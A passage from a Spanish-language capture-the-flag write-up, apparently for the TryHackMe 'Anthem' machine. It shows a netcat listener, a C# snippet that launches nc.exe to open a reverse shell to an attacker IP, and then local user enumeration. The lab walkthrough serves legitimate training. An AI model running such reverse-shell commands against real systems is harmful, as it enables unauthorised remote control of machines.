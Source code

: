 ![anthem_bash_pyRCE_dirTEMP_nc](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_bash_pyRCE_dirTEMP_nc.png)

Nice, no sé por qué solo se muestra nuestro binario, pero bueno, sabemos que esta, ahora ejecutémoslo:

▸ Nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

▸ Le indicamos que nos genere la Reverse Shell:

```py
...
proc.StartInfo.FileName = "cmd.exe"; proc.StartInfo.Arguments = @"/c ..\..\..\\Windows\\TEMP\\nc.exe 10.2.65.117 4433 -e cmd.exe";\
...
```

![anthem_bash_pyRCE_revshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/THM/anthem/anthem_bash_pyRCE_revshell.png)

Perfectooooooooooooooooooo, tamos dentro pai (:

Enumerando usuarios tenemos uno conocido:

```powershell
c:\>net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest                    
**** (acá ta el user u.u)                       WDAGUtilityAccount
```
